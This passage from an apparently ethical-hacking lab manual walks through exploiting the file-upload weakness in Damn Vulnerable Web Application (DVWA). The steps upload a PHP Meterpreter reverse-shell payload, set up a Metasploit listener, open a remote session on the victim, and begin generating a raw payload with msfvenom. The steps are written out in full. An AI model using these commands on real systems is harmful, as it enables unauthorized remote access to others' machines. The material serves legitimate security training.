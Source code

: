	14. The Welcome to Damn Vulnerable Web Application! Page appears. Click DVWA Security in the left pane to view the DVWA security level.
	15. Change the security level from impossible to low by selecting Low from the drop-down list and clicking the Submit button, as shown in the screenshot.
	
	16. Click the File Upload option from the left pane.
	17. The Vulnerability: File Upload page appears; click the Browse… button to upload a file.
	
	18. When the File Upload window appears, navigate to the Desktop location, select the payload file upload.php, and click Open.
	
	19. Observe that the selected file (upload.php) appears to the right of Browse… button.
	20. Now, click the Upload button to upload the file to the database.
	
	21. You will see a message saying that the file has been uploaded successfully, with the location of the file. Note the location of the file and minimize the browser window.
	
	22. Launch a Terminal window by clicking on the MATE Terminal icon at the top of Desktop.
	23. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	24. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	25. Now, type cd and press Enter to jump to the root directory.
	
	26. In the Terminal window, type msfconsole and press Enter to launch the Metasploit framework.
	27. In msfconsole, type use exploit/multi/handler and press Enter to set up the listener.
	
	28. Now, set the payload, LHOST, and LPORT. To do so, use the below commands:
	• Type set payload php/meterpreter/reverse_tcp and press Enter
	• Type set LHOST 10.10.1.13 and press Enter
	• Type set LPORT 4444 and press Enter
	• Type run and press Enter to start the listener
	29. Observe that the listener is up and running at 10.10.1.13. Minimize the terminal window.
	
	30. Switch back to the Mozilla Firefox window where the DVWA website is open. Open a new tab, type http://10.10.1.22:8080/dvwa/hackable/uploads/upload.php in the address bar, and press Enter to execute the uploaded payload.
	
	31. Switch back to the Terminal window and observe that a Meterpreter session has successfully been established with the victim system, as shown in the screenshot.
	
	32. In the meterpreter command line, type sysinfo and press Enter to view the system details of the victim machine.
	
	33. Close all open windows.
	34. Launch a new Terminal window by clicking on the MATE Terminal icon at the top of Desktop window.
	35. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	36. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	37. Now, type cd and press Enter to jump to the root directory.
	
	38. In the Terminal window, type msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=3333 -f raw and press Enter.
Here, the IP address of the host machine is 10.10.1.13 (Parrot Security machine).
	39. The raw payload is generated in the terminal window. Select the payload, right-click on it, and click Copy from the context menu to copy the payload, as shown in the screenshot.
	